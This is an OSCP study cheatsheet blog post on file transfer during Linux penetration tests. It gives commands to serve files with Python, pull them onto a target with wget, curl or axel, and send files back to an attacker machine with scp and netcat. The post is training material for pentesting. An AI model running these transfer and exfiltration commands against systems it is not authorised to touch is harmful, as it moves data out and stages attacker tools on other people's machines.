 ```yaml
---
title: Linux File Transfers
author: sKyW1per
category: "OSCP"
date: "2021-03-20 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
$ sudo python3 -m http.server 80
Python2
$ sudo python -m SimpleHTTPServer 80
```

###### Download from bash
```
$ wget 192.168.119.1:443/file.txt
$ curl 192.168.119.1:443/file.txt -o file.txt
$ axel 192.168.119.1:443/file.txt -o file.txt
```

###### SCP transfer files back to attacker machine over ssh
```
$ scp filename.zip username@192.168.119.1:
(don't forget the ':' )
```

###### netcat
```
On the target system:
$ nc -lvp 80 > file.txt
On the attacker system:
$ nc 192.168.119.1 80 < file.txt

Also works the other way, to get files back to the attacker system.
```
